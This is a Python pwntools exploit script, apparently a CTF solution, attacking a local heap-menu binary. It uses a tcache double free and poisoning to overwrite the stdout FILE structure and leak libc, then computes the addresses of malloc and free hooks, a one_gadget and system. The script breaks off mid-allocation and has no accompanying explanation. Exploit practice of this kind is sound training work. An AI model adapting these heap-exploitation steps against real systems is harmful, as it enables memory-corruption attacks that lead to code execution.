 ```python
#!/usr/bin/env python
# -*- coding=utf8 -*-
"""
# Author: le3d1ng
# Created Time : 2019年04月21日 星期日 12时23分29秒
# File Name: exp.py
# Description:
"""
from pwn import *

io = process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

context.log_level = 'debug'
#context.terminal = ['terminator' , '-x' , 'sh' , '-c']

io.recv()
io.sendline('admin')
io.recv()
payload = 'frame'
io.sendline(payload)
#io.recv()


def debug():
	gdb.attach(io)
	io.interactive()

def addbook(name,size,content):
	io.sendafter('>','1')
	io.sendafter('name:',name)
	io.sendafter('size:',str(size))
	io.sendafter('ion:',content)

def delbook(idx):
	io.sendafter('>','2')
	io.sendafter(':',str(idx))

addbook('bbbbbbba',0x60,'bbbbbbbb')

delbook(0)
delbook(0)
#debug()
addbook('aaa',0x60,p64(0x602020))
addbook('bbb',0x60,'bbb')
addbook('ccc',0x60,'\x60')
addbook('ddd',0x60,p64(0xfbad1800) + p64(0)*3 + '\x90')
#debug()
offset = 0x3ec7e3
libcbase = u64(io.recv(6).ljust(8,'\x00')) - offset
success('libcbase : '+hex(libcbase))
mallochook = libcbase + 0x3ebc30
freehook = libcbase + 0x3ed8e8
onegad = libcbase + 0x4f322
sysaddr = libcbase + libc.symbols['system']

io.recv()
#addbook('555',0x80,'aaa')
io.send('1') #5
io.sendafter('name:','5')
io.sendafter('size:',str(0x80))
io.sendafter('ion:','aa')
```